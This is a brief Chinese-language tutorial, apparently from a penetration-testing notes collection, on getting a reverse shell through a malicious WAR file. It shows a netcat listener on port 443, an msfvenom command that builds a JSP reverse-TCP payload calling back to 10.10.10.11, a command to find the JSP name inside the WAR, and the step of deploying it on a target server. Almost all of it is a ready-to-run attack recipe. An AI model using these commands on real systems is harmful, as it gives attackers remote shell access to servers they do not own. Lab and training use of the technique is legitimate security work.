 # War文件反弹shell

首先在本地监听TCP协议443端口

```
nc -lvp 443

```

使用如下命令生成war文件：

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.11 LPORT=443 -f war > reverse.war

```

查看war包中shell的jsp文件名

```bash
strings reverse.war | grep jsp

```

在靶机上部署war包后，访问shell的jsp文件，即可在监听端口获得反弹shell

